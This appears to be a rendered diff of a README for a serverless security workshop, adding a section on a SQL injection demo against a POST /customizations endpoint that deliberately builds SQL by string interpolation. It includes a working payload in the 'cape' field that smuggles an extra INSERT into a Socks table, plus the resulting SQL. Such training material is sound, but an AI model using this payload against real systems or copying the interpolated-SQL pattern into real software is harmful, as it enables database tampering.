

Before and after one commit to navisinghtechie/secure-serverless, a Markdown page: README.md, the part around one of its changes. Shown at 92% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Document SQL injection workshop demo for POST /customizations.

````diff
--- a/README.md
+++ b/README.md
@@ -178,19 +184,57 @@ After deploy, get the API URL from CloudFormation outputs or API Gateway:
 curl -s "https://YOUR-API-ID.execute-api.us-east-1.amazonaws.com/dev/socks" | jq .
 ```
 
-Or open `apiclient/index.html` in your editor's **Live Preview**, enter the API base URL, and use **Module 0** to test `GET /socks` without auth.
+Or open `apiclient/index.html` in your editor's **Live Preview**, enter the API base URL, and use **Module 0** to test
+`GET /socks` without auth.
+
+## SQL injection demo (workshop)
+
+`POST /customizations` intentionally builds SQL with string interpolation.
+
+**Use only in your own workshop environment.**
+
+### Prerequisites
+
+1. A partner OAuth token with `WildRydes/CustomizeUnicorn` scope (from `POST /partners`).
+2. `POST https://YOUR-API-ID.execute-api.us-east-1.amazonaws.com/dev/customizations`
+3. Header: `Authorization: Bearer <partner-access-token>`
+4. Header: `Content-Type: application/json`
+
+**Request body:**
+
+```json
+{
+  "name": "Orange-themed unicorn",
+  "imageUrl": "https://en.wikipedia.org/wiki/Orange_(fruit)",
+  "sock": "1",
+  "horn": "2",
+  "glasses": "3",
+  "cape": "2) RETURNING \"ID\"; INSERT INTO \"Socks\" (\"NAME\", \"PRICE\") VALUES ('Bad color', 100.0) RETURNING \"ID\"; --"
+}
+```
+
+**SQL produced (simplified):**
+
+```sql
+INSERT INTO "Custom_Unicorns" (...)
+VALUES ('Orange-themed unicorn', 34, '...', 1, 2, 3, 2) RETURNING "ID";
+
+INSERT INTO "Socks" ("NAME", "PRICE") VALUES ('Bad color', 100.0) RETURNING "ID";
+
+-- ) RETURNING "ID"
+```
 
 ## Configuration reference
 
 Environment variables (set in `src/template.yaml` Globals):
 
-| Variable | Required | Default | Purpose |
-|----------|----------|---------|---------|
-| `DB_HOST` | Yes | — | Aurora cluster endpoint (SAM parameter `DbHost`) |
-| `DB_USER` | No | `postgres` | IAM-enabled database user |
-| `DB_NAME` | No | `unicorn_customization` | Application database |
-| `DB_USE_IAM_AUTH` | No | `true` | Use `generate_db_auth_token()` instead of password |
-| `DB_PASSWORD` | Only if IAM auth disabled | — | Static password fallback (not recommended) |
+| Variable          | Required                  | Default                 | Purpose                                            |
+|-------------------|---------------------------|-------------------------|----------------------------------------------------|
+| `DB_HOST`         | Yes                       | —                       | Aurora cluster endpoint (SAM parameter `DbHost`)   |
+| `DB_USER`         | No                        | `postgres`              | IAM-enabled database user                          |
+| `DB_NAME`         | No                        | `unicorn_customization` | Application database                               |
+| `DB_USE_IAM_AUTH` | No                        | `true`                  | Use `generate_db_auth_token()` instead of password |
+| `DB_PASSWORD`     | Only if IAM auth disabled | —                       | Static password fallback (not recommended)         |
 
 Lambda functions also need the `rds-db:connect` IAM policy (already in `template.yaml` per function).
 
````
Also changed, not shown: other parts of README.md (+47 -37 lines).
